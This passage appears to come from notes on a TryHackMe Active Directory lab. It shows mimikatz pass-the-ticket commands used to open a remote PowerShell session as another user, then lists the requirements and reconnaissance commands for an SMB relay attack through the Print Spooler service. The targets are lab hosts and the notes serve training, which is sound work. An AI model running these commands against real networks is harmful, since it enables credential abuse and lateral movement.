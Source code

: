 ```
mimikatz # kerberos::ptt wsman_kirbi                                                                                                                                                                                                                   * File: 'wsman_kirbi': OK                                                                                                                                                                                                                            mimikatz # kerberos::ptt http_kirbi                                                                                                                                                                                                                   * File: 'http_kirbi': OK                                                                                                                                                                                                                              mimikatz # exit                                                                                                                                                                                                                                       Bye!                                                                                                                                                                                                                                                  PS C:\Users\t2_melanie.davies\Desktop>  New-PSSession -ComputerName thmserver1.za.tryhackme.loc                                                                                                                                                       Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability                                                                                                                                                   -- ----            ------------    ------------    -----         -----------------     ------------                                                                                                                                                   1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available                                                                                                                                                    PS C:\Users\t2_melanie.davies\Desktop> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc                                                                                                                                                      [thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami                                                                                                                                                                          za\t1_trevor.jones                                                                                                                                                                                                                                    [thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents>      
```

#### SMB Relay exploit (print spooler service)

Requirements:
- A valid set of AD account credentials. (on a compromised AD host)
- Network connectivity to the target's SMB service.
- The target host must be running the Print Spooler service.
- The hosts must not have SMB signing enforced.

To check whether the Print Spooler is running:
```
GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc  // cmd, usually gives an "access denied" error
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc // Powershell
```
To check SMB Signing:
```
nmap --script=smb2-security-mode -p445 TARGET_IP
```
